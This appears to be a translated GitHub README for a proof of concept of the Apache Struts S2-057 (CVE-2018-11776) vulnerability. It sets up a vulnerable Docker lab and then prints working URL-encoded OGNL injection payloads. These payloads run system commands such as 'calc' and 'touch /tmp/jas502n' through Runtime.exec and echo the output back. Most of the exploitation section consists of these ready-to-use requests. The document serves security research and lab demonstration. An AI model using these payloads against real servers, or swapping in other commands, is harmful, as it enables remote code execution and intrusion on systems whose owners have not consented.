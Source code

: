 # Credit to jas502n
```
Check Master for any updates and fixes. Translation purposes only. (I will try and update fixes)
```
Master https://github.com/jas502n/St2-057

# St2-057 Online Docking Environment, Enjoy!


# 0x01 Setting up the environment docker

https://github.com/surbo/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 Build a st2-057 vulnerability environment

```
docker exec -i -t 88fd8d560155 /bin/bash
```
Start in the background and enter docker

![](./docker-struts-048.jpg)


According to the announcement
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
There is a s2-057 vulnerability in Struts 2.5.16, then download this version.

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/


```
apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 Modifying the configuration file

First find the file struts-actionchaining.xml, and found that there are 2 need to modify
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
Profile modification - reference link:
https://lgtm.com/blog/apache_struts_CVE-2018-11776

Change to the following:

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.actionchain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

Then go to the bin directory, kill the process, because the configuration file is modified, so you need to restart the service.
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 Restart the service, st2-057 is completed.
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05 Verify st2-057
Docker target::http://www.canyouseeme.cc:8080/Struts2-showcase/

Command execution:http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionchain1.action

${(111+111)}

Get the execution result returned in the url::http://www.canyouseeme.cc:8080/Struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} can be replaced with the previous poc, such as S2-032

http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action

![](./calc.jpg)

poc-example:
```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
Split
```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```
# 0x06 Use the old version of the bomb calculator or command to execute
(Vulnerability environment: struts-2.2.3.1-all.zip)
download link: http://archive.apache.org/dist/struts/binaries/struts-2.2.3.1-all.zip

![](./struts-2.2.3.1.jpg)

Ps: The pit is a low version capable of playing the calculator, the high version cannot

Windows:

```
http://127.0.0.1:8080/struts3-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2c%23b%3dnew%20java.io.InputStreamReader(%23a)%2c%23c%3dnew %20java.io.BufferedReader(%23b)%2c%23d%3dnew%20char%5b51020%5d%2c%23c.read(%23d)%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23sbtest.println(%23d)%2c%23sbtest.close())%7d/actionChain1.action
```
![](./windows.png)

Linux:

```
http://www.canyouseeme.cc/struts3-showcase/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/jas502n%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
![](./linux.png)

# 0x07 Reference link

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```


